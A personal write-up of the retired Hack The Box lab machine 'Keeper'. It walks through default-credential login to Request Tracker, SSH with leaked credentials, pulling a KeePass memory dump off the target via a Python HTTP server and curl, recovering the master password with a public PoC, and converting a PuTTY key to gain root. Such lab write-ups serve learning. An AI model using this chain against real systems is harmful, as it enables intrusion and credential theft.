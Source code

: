 # Keeper
Week 3 of trying to consistently solve a HTB. This one might have been too easy, but that's okay.

Metadata:
- OS: Linux
- Difficulty: Easy
- Status: Retired
- TARGET:10.10.11.227
- HOST_IP: 10.10.14.175
- Date: 2024-01-28
---



## Recon
Start off simple, do an nmap scan.
Ran `sudo nmap -p- -sC -sV $TARGET --open`
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-28 13:33 CST
Nmap scan report for 10.10.11.227
Host is up (0.073s latency).
Not shown: 60981 closed tcp ports (reset), 4552 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.59 seconds
```

## Gaining Access
Since 80 was open. I figure we start with a simple `http://10.10.11.227`.

Quickly realized, the website needs `keeper.htb` and `tickets.keeper.htb` to access it from the browser.

```bash
sudo vim /etc/hosts

#add
10.10.11.227 tickets.keeper.htb
10.10.11.227 keeper.htb
```

### Accessing the website using http

Navigating to `http://tickets.keeper.htb` takes you to a login page for the ticketing system.

This is where I probably got the most distracted trying to google a vulnerability. The box uses Best Practical's Request Tracker.

I tried to find vulnerabilities based on their version: `RT 4.4.4+dfsg-2ubuntu1`. This felt like a rabbit hole of potential vulnerabilities without any active PoC.

After 30 mins of mindless google, I sadly realized when you google `request tracker default credentials`. Google immediately tells you: `root/password` are the default creds. (I probably should have looked for this first lol).

## Gaining User Access
This part was probably the most straight forward. If you do some searching on the site as root, you'll come across a Users directory. One of the users contains credentials in the profile. Figure I might as well try it via ssh.

User: `lnorgaard`
password: `Welcome2023!`
```bash
ssh lnorgaard@10.10.11.227
```
### User Flag
Soon as you login with the credentials, you're in the home directory: `cat user.txt`

## Privilege Escalation
This is what I think makes this box actually easy - inside the home directory. You're given two KeePass files: `KeePassDumpFull.dmp` and `passcodes.kdbx`

Fortunately, I'm actually familiar with KeePass from a previous job. KeePass is a password manager. So I knew the kdbx file is an encrypted file containing a root password.

```bash
`ls -lah
total 326M
drwxr-xr-x 6 lnorgaard lnorgaard 4.0K Jan 28 21:42 .
drwxr-xr-x 3 root      root      4.0K May 24  2023 ..
lrwxrwxrwx 1 root      root         9 May 24  2023 .bash_history -> /dev/null
-rw-r--r-- 1 lnorgaard lnorgaard  220 May 23  2023 .bash_logout
-rw-r--r-- 1 lnorgaard lnorgaard 3.7K May 23  2023 .bashrc
drwx------ 2 lnorgaard lnorgaard 4.0K May 24  2023 .cache
-rwxr-x--- 1 lnorgaard lnorgaard 242M May 24  2023 KeePassDumpFull.dmp # <- important
-rwxr-x--- 1 lnorgaard lnorgaard 3.6K May 24  2023 passcodes.kdbx # <- important
-rw------- 1 lnorgaard lnorgaard  807 May 23  2023 .profile
-rw------- 1 lnorgaard lnorgaard    7 Jan 28 21:42 .python_history
-rw-r--r-- 1 root      root       84M Jan 28 21:46 RT30000.zip
drwx------ 2 lnorgaard lnorgaard 4.0K Jul 24  2023 .ssh
-rw-r----- 1 root      lnorgaard   33 Jan 28 18:30 user.txt
-rw-r--r-- 1 root      root        39 Jul 20  2023 .vimrc
`
```

With a quick Google search: `keepass dump file exploit`, you find this [PoC from github](https://github.com/vdohney/keepass-password-dumper?tab=readme-ov-file).

Special thanks to `vdohney` for their PoC and also mentioning a [python version](https://github.com/matro7sh/keepass-dump-masterkey) by `CMEPW`(unsure, if `matro7sh` is the same person. Shout out to them as well!)

```bash
git clone https://github.com/matro7sh/keepass-dump-masterkey.git
cd keepass-dump-masterkey/
```

Now we need to get the dump file and password file back to my kali machine.We can use python to start an http server to curl the contents back to myself
```
#from the victim machine
python3 -m http.server
#this will open port 8000. Therefore I can easily curl it back

#from host machine (inside the git clone repo)
curl http://$TARGET:8000/passcodes.kdbx > passcodes.kdbx
curl http://$TARGET:8000/KeePassDumpFull.dmp > dumpy.dmp
```

### Crack the Password Manager
This is where `tmux`, my terminal in kali and trying to copy/paste failed me. When you run the python script against the dump file. you get output like this:
```bash
python3 poc.py ../dumpy.dmp
2024-01-28 14:53:01,481 [.] [main] Opened ../dumpy.dmp
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```

Unfortunately, I was super close but ultimately had to reach out to a solution to realize how close I was.

Thank you `Imène ALLOUCHE` for your [write-up](https://medium.com/@li_allouche/hack-the-box-keeper-writeup-56644dc6a55f)

What we were essentially getting was the password `dgrød med flød`. However, I didn't have terminal configured to handle complex unicode characters. /facepalm. Sounds like I need to spend some time configuring my environment to be like my old Kali machine.

If you google `dgrød med flød` you will quickly find the 2 characters and the password: `rødgrød med flød`

### Installing KeePass and gaining Root
```bash
#on kali
sudo apt install keepass2
keepass2 passcodes.kdbx
```

Once you provide the master pass, `rødgrød med flød`


## Getting the Root flag
This is probably the main thing I learned from this challenge. The root password in this keystore didn't seem to work. However, inside there was a `Putty Private Key`. First, I didn't know this format existed. Second, I didn't know you could use this to generate a valid `id_rsa` file to ssh as root. Once again, thank you `Imène`.

```bash
# first we need puttygen
sudo apt install putty-tools
# Next we need to save the Private key inside KeePass. I named mine root.ppk
puttygen root.ppk -O private-openssh -o id_rsa
# now we have the private key in a format we can use for ssh
ssh root@10.10.11.227 -i id_rsa
cat root.txt
```

# Final Thoughts
Really easy box I could have gotten without reading a write-up - I just made some noob mistakes with how my environment is configured. I plan to fix my copy/paste issues and get better unicode support in my terminal. Also, need to make it a habit to google default credentials before looking for a PoC.

## The one thing I learned
I never knew `ppk` files existed (try to avoid windows to be honest). So that was neat to learn. I recommend reading the article on ppk if curious. I felt like I learned something new.

Definitely an easy, but I still enjoyed it. My main focus right now is staying consistent. Hopefully in a couple weeks, I can increase the difficult and get back to using some advanced tools/techniques. Or maybe, I'll try to write my own PoC from scratch (if the vuln is easy lol) - haven't decided yet.


Resources
---
- [Article on ppk](https://www.baeldung.com/linux/ssh-key-types-convert-ppk)
- [Write-up](https://medium.com/@li_allouche/hack-the-box-keeper-writeup-56644dc6a55f)
- [KeePass PoC](https://github.com/vdohney/keepass-password-dumper?tab=readme-ov-file)
- [Python PoC](https://github.com/matro7sh/keepass-dump-masterkey)

